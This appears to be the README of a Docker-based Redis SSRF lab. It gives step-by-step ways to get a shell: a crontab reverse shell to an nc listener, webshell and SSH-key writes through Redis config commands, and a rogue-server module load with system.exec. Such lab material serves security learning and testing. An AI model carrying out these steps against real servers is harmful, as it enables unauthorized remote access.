

# Environment
Create the environment by start the docker images. The comand is:

```
cd project/redis
docker-compose up -d
``` 

And then you need to start the service `httpd` and `crond` manully. 

```
docker exec -it `container_id` /bin/bash
>systemctl start httpd
>systemctl start crond
```

# Exploiting

### 0x01 Crontab
It can be exploited by `dict://` or `gopher://`.

**Prerequisites:**

* The redis should start by root
* It must be `CentOS` system.

**Steps:**

1. Put the `302.php` and `shell.php` in your VPS.

2. modify the exp.py to adapt yours. It references []() 

3. Run `python3 exp_dict.py`.

4. Listening the port on your VPS `nc -lvp 2333`.

### 0x02 Webshell

It can be exploited by 	`gopher://`.

**Steps:**

1. Modify the exp_resp.py and put the cmds that you need in the `cmd[]` in the `exp_resp.py`. Such like 

```
cmd = [	"flushall",
		"set 1 {}".format(shell.replace(" ","${IFS}")),
		"config set dir {}".format(path),
		"config set dbfilename {}".format(filename),
		"save"
		]
```

2. Run `python3 exp_trans.py` to obtain the representation of gopher payload.

3. Put the payload in the vulnerable point.

4. Access the webshell.

### 0x03 SSH Key

**Prerequisites:**

* The redis should start by root or other user that known.
* The ssh should supprt `PubkeyAuthentication`. like that:


```
#/etc/ssh/sshd_config

PasswordAuthentication no


RSAAuthentication yes
PubkeyAuthentication yes

AuthorizedKeysFile .ssh/authorized_keys
```

**Steps:**

1. Generate the key pair of yours.

```
cd /root/.ssh

ssh-keygen -t rsa
```

2. Put the key in the `exp_resp.py` and replacing the path and dbfilename. 


3. Put the payload in the vulnerable point.

4. Login in with `ssh -p port user@ip -i path_of_private_key`


### 0x04 Slave

After Redis 4.x, it adds a module function, it can be utilized to getshell.

**Prerequisites:**

* Redis <= 5.0.5
* Change the dockerfile of redis from `FROM redis:3.2` to `From redis:5.0` 

**Steps:**

If you can access the redis directily, you can run the `exp_slave.py`. Then you can interact with shell. like this:



If you access the redis by SSRF in intranet, you can run `Redis_Rogue_Server.py` and then send the command with `gopher://` or `dict://`.

```
slaveof ip port
config set dbfilename exp.so
···(python3 Redis_Rogue_Server.py)
module load ./exp.so
system.exec command
```


# Thanks

* [SSRF漏洞分析与利用](http://www.4o4notfound.org/index.php/archives/33/)
* [https://xz.aliyun.com/t/5665#toc-14](https://xz.aliyun.com/t/5665#toc-14)
* Redis-Rogue-Server [https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)


